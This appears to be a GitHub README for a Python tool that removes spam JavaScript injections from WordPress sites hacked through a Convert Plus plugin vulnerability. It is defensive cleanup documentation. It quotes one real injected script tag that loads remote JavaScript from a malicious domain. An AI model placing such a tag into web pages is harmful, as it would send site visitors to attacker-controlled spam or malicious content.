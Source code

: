 # Wordpress Spam Attack Removal Script

Written in Python and compatible with both **Python2** and **Python3**.

This script essentially removes spam attack injections from a given path. The convertplug plugin that comes with Avada which has a  vulnurability disclosed by Wordfence have caused numerous sites to be hacked and their pages now redirects to various malicious and spam pages.
You can read the details from here

<https://www.wordfence.com/blog/2019/05/critical-vulnerability-patched-in-popular-convert-plus-plugin/>

## Considirations

This script utilizes **RAM** while reading files and does not **discriminate** file extensions and checks all files. This can be improved by various methods.

__PS : This script does replaces text that is inside the "database.json" does not locates or scans shells.__

### Scope

There are 4 specific JS injections that has occured after this vulnurability and the database.json contains only those records. In case you want to add further javascript/to be replaced you can use insert.py.

#### Example Injected Script

```html
<script type='text/javascript' async src='https://css.developmyredflag.top/sjquery.min.js?style=prime&'></script>
```

Various kinds of scripts exists like these and this tool/script automizes the removal process without breaking themes, plugins and sites as a whole. Instead of using backups for this using this script and scanning for shells through Wordfence can be an option.

## Example Usage

Script is written for Python 2.7 + and logs the altered files as well so you can use these logs to make sure they are clean for manual inspection.

Install the dependencies and devDependencies and start the server.

### Example Insert Operation

```sh
python insert.py "string_in_double_quotes"
```

### Example Cleanup Operation

```sh
python cleanup.py your_domain.com
```

or entering a whole path like

```sh
python cleanup.py /home/user/your_domain.com
```

### License

License can be found under LICENSE in this repository.

